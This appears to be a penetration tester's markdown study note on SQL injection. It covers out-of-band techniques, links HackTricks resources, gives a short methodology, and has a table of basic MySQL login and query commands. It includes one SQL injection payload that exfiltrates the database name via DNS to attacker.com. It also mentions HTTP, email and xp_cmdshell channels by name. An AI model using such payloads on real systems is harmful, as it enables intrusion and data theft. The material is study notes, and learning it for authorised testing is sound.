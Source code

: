 ### Out-of-band (Hard mode)
Where it uses different communication channels to receive results (separate from the attack channel). Used w2hen all other methods fail, or for stealth/speed in advanced scenarios.
- How it works: Triggers database to make external connections (HTTP, DNS, SMB) --> Data is sent to attacker-controlled external server --> Useful when in-band methods don't work due to firewalls/filtering
- Common techniques:
    - DNS exfiltration: `' AND (SELECT LOAD_FILE(CONCAT('\\\\',database(),'.attacker.com\\share')))-- -`.
    - HTTP requests: Database makes HTTP calls to attacker's server with data in URL
    - Email: Some databases can send emails with extracted data
- Requirements: Database must have network access / Specific database functions enabled (like xp_cmdshell in SQL Server) / Attacker needs external infrastructure to receive data
- Characteristics: Most complex to set up / Often fastest for large data extraction / Bypasses many filtering mechanisms / Requires advanced database privileges

# Resources
- [3306 - Pentesting Mysql](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html)
- [1433 - Pentesting MSSQL - Microsft SQL Server](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html)
- [5432,5433 - Pentesting Postgresql](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-postgresql.html)
- [9001 - Pentesting HSQLDB](https://book.hacktricks.wiki/en/network-services-pentesting/9001-pentesting-hsqldb.html)
- [NoSQL injection](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html)
- [RSQL Injection](https://book.hacktricks.wiki/en/pentesting-web/rsql-injection.html)
- 

# Good Examples

# Tooling

# Methodology TLDR
[HackTricks](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html#entry-point-detection)
1. Find an entry point and figure out how to escape it's context. 
2. Make it so that it doesn't error out when you've escaped by adding something a comment tag or `'`. Your goal is to either get the previous query to accept NEW data or just input your data and then a comment symbol to the end.


# Useful Commands + Syntax
| **Description** | **Command** |
|-----------------|-------------|
| Auth to MySQL/MariaDB. There shouldn't be any spaces between `-p` and the password. No host specified so it'll default to localhost | `mysql -u root -p` or `mysql -u root -p<password>` |
| Auth to a specific host | `mysql -u root -h docker.hackthebox.eu -P 3306 -p ` | 
| Displays the privileges and roles that are assigned to a MySQL user account or role | [SHOW GRANTS](https://dev.mysql.com/doc/refman/8.0/en/show-grants.html) |
| SHOW DATABASES lists the databases on the MySQL server host | [SHOW DATABASES](https://dev.mysql.com/doc/refman/8.0/en/show-databases.html) |
| The DESCRIBE and EXPLAIN statements are synonyms. Both used to obtain information about table structure | [DESCRIBE / EXPLAIN](https://dev.mysql.com/doc/refman/8.0/en/explain.html) |
| Order the output | [ORDER BY](https://dev.mysql.com/doc/refman/8.0/en/order-by-optimization.html) | 
| Limit the output to a set number | [LIMIT](https://dev.mysql.com/doc/refman/8.0/en/limit-optimization.html)